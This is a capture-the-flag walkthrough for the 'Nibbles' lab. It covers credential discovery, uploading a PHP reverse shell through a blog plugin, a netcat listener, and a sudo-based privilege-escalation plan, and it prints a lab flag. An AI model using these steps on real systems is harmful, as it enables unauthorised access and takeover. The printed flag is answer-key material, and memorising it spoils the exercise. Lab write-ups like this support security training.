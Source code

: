 There are a lot of directory listing enabled. And eventually we can browser to:
http://$ip/nibbleblog/content/private/users.xml

We can identify the user admin.

![admin user](img/htb-nibble_00.png)

We could also enumerate http://$ip/nibbleblog/admin.php

Login access is admin:nibbles.

Go to Plugins tab and locate MyImage one: http://$ip/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image

Upload a PHP reverse shell, go to http://$IP/nibbleblog/content/private/plugins/my_image/ 

Set a netcat listener

```
nc -lnvp 1234
```

Click on the reverse shell "image.php" and we will get a reverse shell.

```
whoami
#nibbler

cat /home/nibbler/user.txt
```



**Results**:  79c03865431abf47b90ef24b9695e14879c03865431abf47b90ef24b9695e148


#### [Nibbles - Privilege Escalation](https://academy.hackthebox.com/module/77/section/853)

Escalate privileges and submit the root.txt flag.

```
cd /home/nibbler
```


```
sudo -l
```

Results:

```
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

The `nibbler` user can run the file `/home/nibbler/personal/stuff/monitor.sh` with root privileges. Being that we have full control over that file, if we append a reverse shell one-liner to the end of it and execute with `sudo` we should get a reverse shell back as the root user.

